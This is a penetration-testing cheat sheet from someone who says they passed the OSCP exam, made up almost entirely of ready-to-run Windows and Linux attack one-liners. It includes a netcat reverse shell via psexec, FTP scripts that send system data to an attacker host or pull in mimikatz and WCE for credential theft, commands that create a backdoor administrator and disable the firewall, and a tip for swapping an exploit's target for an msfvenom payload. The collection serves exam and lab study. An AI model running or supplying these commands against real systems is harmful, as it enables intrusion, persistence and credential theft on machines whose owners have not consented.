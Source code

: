 # I have passed OSCP as of today.  
  
## Useful tips:  
  
Hosting files in Kali:  
1) go to folder where to host files  
2) python -m SimpleHTTPServer 80  
  
If in case your script shows ^M errors in linux, and need to remove dos CRs:  
```  
dos2unix <your script file>  
```  
  
Pivoting:  
```  
sshuttle -r user@ipdaddr iprange  
```  
  
Example:  
```  
sshuttle -r user@10.49.49.49 10.50.50.0/24  
```  
  
Building an array for badchars:  
```  
badchararray = [chr(i) for I in range(0, 0x100)]  
badchars = "".join(badchararray)  
"".join(badchars)  
```  
  
Building an array for badchars except certain values:  
```  
badchararray = [chr(i) for I in range(0, 0x100) if i not in [0x00, 0x01]]  
badchars = "".join(badchararray)  
"".join(badchars)  
```  
  
Best recon tool:  
https://github.com/Tib3rius/AutoRecon  
  
Best cheat sheet for reverse shells:  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

Best cheat sheet for post exploitation without a tty:
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
  

## windows  
  
Proof:  
```  
echo hostname: & hostname & echo username: & whoami & echo proof & type proof.txt & ipconfig /all  
```  
  
Downloading files without using powershell/vbs:  
```  
certutil -urlcache -split -f http://yourkaliiphere/file.exe c:\file.exe  
```  
  
Run systeminfo and upload to my box:  
```  
systeminfo > %computername%.systeminfo & echo open %myhost% > ftp.txt & echo user myuser 12345 >> ftp.txt & echo bin >> ftp.txt & echo put %computername%.systeminfo >> ftp.txt & echo bye >> ftp.txt & ftp -v -n -s:ftp.txt  
```  
  
Post Exploitation:  
  
Add user in admin & rdp group:  
```  
net user myuser 12345 /add & net localgroup administrators myuser /add & net localgroup "Remote Desktop Users" myuser /add  
```  
  
Enable RDP:  
```  
netsh firewall set opmode mode=DISABLE & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & sc start termservice  
```  
  
Start RDesktop:  
```  
net start termservice  
```  
  
One liner post exploitation (add user, enable rdp):  
```  
netsh firewall set opmode mode=DISABLE & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & sc start termservice & net user myuser 12345 /add & net localgroup administrators myuser /add & net localgroup "Remote Desktop Users" myuser /add  
```  
  
One liner download and run mimikatz:  
```  
echo open %ipaddr% > ftp.txt & echo user myuser 12345 >> ftp.txt & echo bin >> ftp.txt & echo get x64/mimidrv.sys >> ftp.txt &echo get x64/mimikatz.exe >> ftp.txt &echo get x64/mimilib.dll >> ftp.txt &echo get x64/mimilove.exe >> ftp.txt & echo bye >> ftp.txt & ftp -v -n -s:ftp.txt   
```  
  
One liner download and run windows credential editor:  
```  
echo open %ipaddr% > ftp.txt & echo user myuser 12345 >> ftp.txt & echo bin >> ftp.txt & echo get wceu.exe >> ftp.txt & echo bye >> ftp.txt & ftp -v -n -s:ftp.txt   
```  
  
Run psexec as another user:  
```  
psexec64 -accepteula -u %username% -p %password% nc %ipaddr% %port% -e cmd.exe  
```  
  
For privesc PoCs which run "calc.exe" or "cmd.exe" using CreateProcess(), CREATE_NEW_WINDOW, change target binary to a msfvenom payload.  
  
e.g.  
https://github.com/abatchy17/WindowsExploits/blob/master/MS10-015%20-%20KiTrap0D/vdmallowed.c  
Instead of:  
```  
    if (PrepareProcessForSystemToken("C:\\WINDOWS\\SYSTEM32\\CMD.EXE", &ShellPid) != TRUE) {  
        LogMessage(L_ERROR, "PrepareProcessForSystemToken() returned failure");  
        goto finished;  
    }  
```  
Use:  
```  
    if (PrepareProcessForSystemToken("C:\\WINDOWS\\TEMP\\PAYLOAD.EXE", &ShellPid) != TRUE) {  
        LogMessage(L_ERROR, "PrepareProcessForSystemToken() returned failure");  
        goto finished;  
    }  
```  
  
Cracking fgdump hashes:  
```  
john --wordlist=/ftphome/rockyou.txt fgdump.txt  
```  
  
## linux  
  
Proof:  
```  
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat proof.txt 2>/dev/null;echo " "  
```  
  
Interactive shell:  
```  
python -c 'import pty; pty.spawn("/bin/bash")'  
```  
  
Best Linux PrivEsc tool:  
https://github.com/rebootuser/LinEnum  
  
  
## others

Good luck! (and try harder!)  
